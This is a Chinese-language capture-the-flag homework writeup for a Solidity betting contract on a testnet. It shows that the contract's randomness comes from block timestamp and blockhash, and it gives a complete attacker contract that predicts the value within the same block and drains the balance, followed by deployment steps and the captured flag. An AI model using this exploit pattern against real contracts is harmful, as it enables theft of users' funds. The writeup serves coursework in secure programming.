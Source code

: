 ###### tags: `程式安全`
# Secure Programming HW3 Writeup
## Bet
### 解法：
首先檢查bet.sol的檔案，看一下validate的通關條件，目標是要把BetFactroy建立的Bet的balance給領光
```
require(address(instances[msg.sender]).balance == 0);
```
接著我們看一下怎樣錢才會被領光，在Bet contract的bet function可以發現要讓function的參數guess跟getRandom function的return value一樣，合約才會把錢都給你
```
function bet (uint guess) public payable onlyPlayer {
        require(msg.value > 0);
        if (guess == getRandom()) {
            msg.sender.call{value: address(this).balance}("");
        }
    }
```
那檢查一下getRandom function是怎麼產生random value的，
```
function getRandom () internal returns(uint) {
        uint rand = seed ^ uint(blockhash(block.number - 1));
        seed ^= block.timestamp;
        return rand;
    }
```
它是利用seed,blockhash跟block.number來產生return value
seed是contructor的參數傳進來的
```
constructor (address _player, uint _seed) Challenge(_player) {
        seed = _seed;
    }
```
傳進來的值則是create那個block的block.timestamp
```
function create () public payable {
        require(msg.value >= 0.5 ether);
        instances[msg.sender] = address(new Bet(msg.sender, block.timestamp));
        instances[msg.sender].call{value: 0.5 ether}("");
    }
```
而這些值在上課中講過只要在同個block就會一樣，可以利用其他合約來呼叫並取得同樣的random value

下面是我寫的HackBet.sol合約，有些function是沒刪掉的，我會解釋用到的部份
首先利用跟Hack.sol同樣的語法，讓你可以利用這個合約呼叫BetFactory跟Bet的function，而不會因為用錢包呼叫function被onlyPlayer限制

接下來我們先用create這個function來建立Bet,同時用public variable seed紀錄block.timestamp來得到Bet中的seed，因為他們會被算在同個block，所以block.timestamp會一樣

然後Run這個function是用來call bet的，那因為他們會被算在同個block裡面block.number跟blockhash算的值會一樣，直接把seed ^ uint(blockhash(block.number - 1))當作guess塞進去就會跟getRandom()拿到的值一樣，就可以通過判斷而拿到錢

最重要的是記得寫receive function，我原本沒寫結果收不到錢QQ

withdraw function只是讓你可以把HackBet的錢提回你的錢包而已

```
/**
 *Submitted for verification at Etherscan.io on 2020-10-27
*/

//SPDX-License-Identifier: MIT
pragma solidity >= 0.7.0;

contract BetFactory {
    mapping(address => address) public instances;
    function create() public payable {}
    function validate (uint) public {}
}

contract Bet {
    function bet (uint) public payable {}
}

contract HackBet{
    address public result;
    uint public seed;
    address target;
    
    function validate (address _factory, uint token) public {
        BetFactory factory = BetFactory(_factory);
        factory.validate(token);
    }
    
    function create (address _factory) public payable {
        seed = block.timestamp;
        BetFactory factory = BetFactory(_factory);
        factory.create{value: msg.value}();
    }
    
    function view_instance(address _factory, address _target) public returns (address) {
        BetFactory factory = BetFactory(_factory);
        result = factory.instances(_target);
    }
    
    function Run (address _target) public payable {
        Bet instance = Bet(_target);
        instance.bet{value: 0.001 ether}(seed ^ uint(blockhash(block.number - 1)));
    }
    /*
    function getRandom () internal returns(uint) {
        uint rand = block.timestamp ^ uint(blockhash(block.number - 1));
        return rand;
    }
    */
    function withdraw() public {
        msg.sender.call{value: address(this).balance}("");    
    }
    
    receive () external payable {}
}
```
那接下來講我是怎麼實際操作合約來拿到flag的
首先用remix來deploy你的合約
接著到https://ropsten.etherscan.io/
找到你deploy的合約，上傳你的source code讓你可以在上面做write contract的動作
然後先在create輸入nc指令看到的factory address跟0.5 ether來建立Bet的合約
![](https://i.imgur.com/5SAMLHQ.png)
接著呼叫run來呼叫bet把錢領出來
![](https://i.imgur.com/47Kjgf2.png)
可以從transaction紀錄裡面看到送0.001的msg.value進去後提出了create的0.5+0.001共0.501的錢
![](https://i.imgur.com/SQa9BtF.png)
檢查一下contract確定balance裡面沒錢了
![](https://i.imgur.com/t8nRNzo.png)
最後呼叫validate並在terminal上面拿到flag
![](https://i.imgur.com/PXY1yC5.png)
![](https://i.imgur.com/fj0jfdk.png)

flag如下：
>FLAG{CgMZBaRrk4tY1xnnEdDi}



